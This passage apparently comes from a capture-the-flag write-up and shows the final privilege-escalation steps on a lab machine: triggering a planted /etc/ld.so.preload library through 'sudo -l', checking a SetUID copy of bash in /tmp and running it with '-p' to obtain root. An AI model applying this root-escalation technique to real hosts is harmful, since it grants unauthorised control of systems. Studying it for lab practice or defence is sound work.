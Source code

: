 

#### Run SetUID Binary

Now I just need to run something that starts as root. `sudo -l` will
work nicely:



    activemq@broker:/tmp$ sudo -l
    ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ...[snip]...
    ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    Matching Defaults entries for activemq on broker:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx



It fails to load a bunch of shared objects, but if it loaded `pwn.so`,
then `/tmp/rootshell` should be SetUID and SetGID now. It is:



    activemq@broker:/tmp$ ls -l /tmp/rootshell 
    -rwsr-xr-x 1 root root 1396520 Nov  8 21:07 /tmp/rootshell



Running it with `-p` returns a root shell:



    activemq@broker:/tmp$ /tmp/rootshell -p
    rootshell-5.1# id
    uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)







